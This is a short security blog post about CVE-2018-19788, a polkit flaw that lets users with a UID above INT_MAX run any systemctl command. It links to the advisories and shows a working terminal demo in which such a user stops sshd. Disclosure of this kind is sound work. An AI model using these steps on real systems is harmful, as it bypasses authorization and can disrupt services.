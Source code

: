 ```yaml
---
layout: post
title: Critical vulnerability on policykit of systemd
category: 
- technical
- security
description: unprivileged users with UID > INT_MAX can successfully execute any systemctl command
---
```


**[CVE-2018-19788]**: A flaw was found in PolicyKit (aka `polkit 0.115`) that allows a user with a uid greater than `INT_MAX` to successfully execute any `systemctl` command.
* [https://github.com/systemd/systemd/issues/11026](https://github.com/systemd/systemd/issues/11026)
* [https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156](https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156)
* [https://gitlab.freedesktop.org/polkit/polkit/issues/74](https://gitlab.freedesktop.org/polkit/polkit/issues/74)

Find out more about CVE-2018-19788 from the [MITRE CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19788) dictionary and [NIST NVD](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2018-19788)

![](/assets/img/CVE-2018-19788.webp)

<!--description-->

## DEMO

```shell
root@ahihi:~# useradd -u 4000000000 wtf
root@ahihi:~# su - wtf
No directory, logging in with HOME=/

$ whoami
wtf
$ id
uid=4000000000(wtf) gid=1002(wtf) groups=1002(wtf)

$ systemctl stop sshd.service

(process:22860): GLib-GObject-WARNING **: value "-294967296" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)

root@ahihi:~# systemctl status sshd.service
...
Dec 05 15:38:39 ahihi systemd[1]: Stopping OpenBSD Secure Shell server...
Dec 05 15:38:39 ahihi systemd[1]: Stopped OpenBSD Secure Shell server.
```

